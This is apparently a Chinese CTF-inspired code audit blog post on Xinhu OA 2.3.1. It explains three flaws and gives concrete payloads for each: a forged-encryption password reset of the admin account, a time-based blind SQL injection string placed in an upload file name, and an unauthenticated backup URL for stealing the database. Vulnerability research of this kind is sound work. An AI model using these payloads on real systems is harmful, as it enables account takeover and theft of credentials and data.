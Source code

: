 # [代码审计]信呼OA2.3.1版本代码审计


# 前言
对于这个OA的代码审计是在最近的西湖论剑比赛中出的一个web题，题目是2.3.1版本的信呼OA，在当时是最新版的（2021.11.20）
这次比赛结束打算好好审计一波

# 环境搭建
此次代码审计我用的是2.3.1版本
项目地址：
https://xinhu-1251238447.file.myqcloud.com/file/xinhu_utf8_v2.3.1.zip

安装好后，修改admin的密码，成功初始化

![在这里插入图片描述](https://img-blog.csdnimg.cn/fdf633e0cf3540b093b92e0eb3afcd07.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

# 漏洞分析
## 修改任意用户密码
在安装完该OA系统后，我修改了默认密码为1234qwer

漏洞存在于`webmain/task/api/reimplatAction.php`中
看到这里的代码

```php
public function indexAction()
	{
		$body = $this->getpostdata();
		if(!$body)return;
		$db 	 = m('reimplat:dept');
		$key 	 = $db->gethkey();
		$bodystr = $this->jm->strunlook($body, $key);
		if(!$bodystr)return;
	
		$data 	 = json_decode($bodystr, true);
		$msgtype = arrvalue($data,'msgtype');
		$msgevent= arrvalue($data,'msgevent');
		
============中间省略================================
		
		//修改密码
		if($msgtype=='editpass'){
			$user = arrvalue($data, 'user');
			$pass = arrvalue($data, 'pass');
			if($pass && $user){
				$where  = "`user`='$user'";
				$mima 	= md5($pass);
				m('admin')->update("`pass`='$mima',`editpass`=`editpass`+1", $where);
			}
		}
	}
```
首先是`getpostdata()`方法获取post传入的数据
第二个点就是key，我们跟进这个`getkey()`方法
在`webmain/model/reimplat/reimplat.php`中可以看到如下代码，会返回md5值
默认安装完系统这个是空的 返回的也就是空string的md5值，即d41d8cd98f00b204e9800998ecf8427e
```php
	public function gethkey()
	{
		$key = $this->reimplat_huitoken;
		if(isempt($key))$key = $this->reimplat_secret;
		if(isempt($key))$key = $this->reimplat_cnum;
		return md5($key);
	}
```
然后就是`$bodystr = $this->jm->strunlook($body, $key);`，这里对我们传入的数据进行**解密**
那么我们可以在下面构造一个**加密**，获取到修改后的sign，如下图所示

```php
$test = $this->jm->strlook(json_encode(array("msgtype"=>"editpass","user"=>"admin","pass"=>"123456")), $key);
echo $test;
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/0dd21c2adc464157a9a91256c1cf0da9.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

发包时还是得用post方法发包，成功拿到恶意修改的sign

![在这里插入图片描述](https://img-blog.csdnimg.cn/1815187d3ab24384a275dd862894c9aa.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

此时我们再把这个sign作为post数据穿进去，经过`getpostdata()`获取到data，再通过相同的key去通过`strunlook()`进行解密，从而进入判断条件
修改密码
```
$msgtype=='editpass'
```
发包如下

![在这里插入图片描述](https://img-blog.csdnimg.cn/75f56ad99204490095b12fb0d9984caa.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

密码成功修改成了123456

![在这里插入图片描述](https://img-blog.csdnimg.cn/4bd411f95b0646a3b98bf0c113f97c4b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)


## 文件上传处sql盲注
需要先登录后台才能使用文件上传

`webmain/public/upload/uploadAction.php`
在upfileAjax方法里面，找到执行sql语句处，跟进uploadback方法

![在这里插入图片描述](https://img-blog.csdnimg.cn/8eda1e6b6faa48d283f190b33b3a22d5.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

这里有一个过滤函数，跟进看一下

![在这里插入图片描述](https://img-blog.csdnimg.cn/7875ab291df4424294780faaecc822ff.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

这里注释说明了是过滤特殊的文件名，可以看到，这里过滤的很少

![在这里插入图片描述](https://img-blog.csdnimg.cn/3579b810fb2a46d78fd9e296f2dcd93e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

修改uptype为*，文件名为sql注入语句，可以看到成功延时
![在这里插入图片描述](https://img-blog.csdnimg.cn/46cfd111fc8b4bedaf8d2deddf6279e8.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

盲注语句可以这样写，这里单独的`()`会被过滤掉，双写就可以了
```sql
1' and if(ascii(substr((select database(())),1,1))>1,SLEEP(3),0)-- -
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/16dd014707934f08a4db3ff30ec27863.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

这样就可以写脚本跑内容了，这里就不多说了

## 未授权备份
在webmain/task/runt/sysAction.php中
这里用beifenClassModel调用了他的start方法

![在这里插入图片描述](https://img-blog.csdnimg.cn/00cc3703c04a49cdb534ee609f030d65.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_12,color_FFFFFF,t_70,g_se,x_16)

找到beifenClassModel，看到里面的start方法
会把数据库数据备份到upload/data目录下，以时间命名

![在这里插入图片描述](https://img-blog.csdnimg.cn/eed38931fa114eddacec1dc326ba9ea7.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

payload：

```
/task.php?m=sys|runt&a=beifen
```

可以发现已经备份过来了

![在这里插入图片描述](https://img-blog.csdnimg.cn/fb1399d437a443ecb8ccafaebfb8b0cc.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_12,color_FFFFFF,t_70,g_se,x_16)

都是可以直接访问的，可以爆破一下文件名去拿

![在这里插入图片描述](https://img-blog.csdnimg.cn/15c16ce598bf4fcc8e67b28413a38350.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

这里是可以拿到管理员密码的

![在这里插入图片描述](https://img-blog.csdnimg.cn/aacfad43346e4fa6a232035f5e9bd976.png)

这个的前提是知道数据库的库名，不然还是打不了了，默认是xinhu

